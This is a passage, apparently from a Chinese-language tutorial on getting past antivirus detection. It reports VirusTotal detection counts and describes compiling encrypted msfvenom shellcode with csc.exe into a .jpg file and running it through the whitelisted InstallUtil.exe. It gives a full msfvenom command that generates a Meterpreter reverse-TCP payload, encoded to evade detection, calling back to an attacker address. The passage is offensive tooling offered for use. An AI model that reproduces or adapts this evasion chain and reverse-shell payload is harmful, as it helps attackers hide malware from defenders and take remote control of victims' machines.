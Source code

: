 virustotal.com中14/71个报毒

![98f1a556df13f6abded16ac03fb9264a](images/2020.03-bypass-04/14.png)


# 3 加载器加载C#代码

加载器用的比较多的是CSC.exe+InstallUtil.exe加载shellcode，流程为：msf生成C#格式shellcode -> 加密shellcode -> 解密并加载shellcode -> csc.exe编译成.jpg文件 -> InstallUtil.exe白名单执行。之前backlion师傅和亮神都介绍过这种方法。

# 3.1 法4：使用CSC+InstallUtil执行shellcode(VT免杀率33/71)

先通过msfvenom生成C＃的shellcode
```
msfvenom -p  windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 6 -b '\x00' lhost=10.211.55.2 lport=3333 -f csharp
```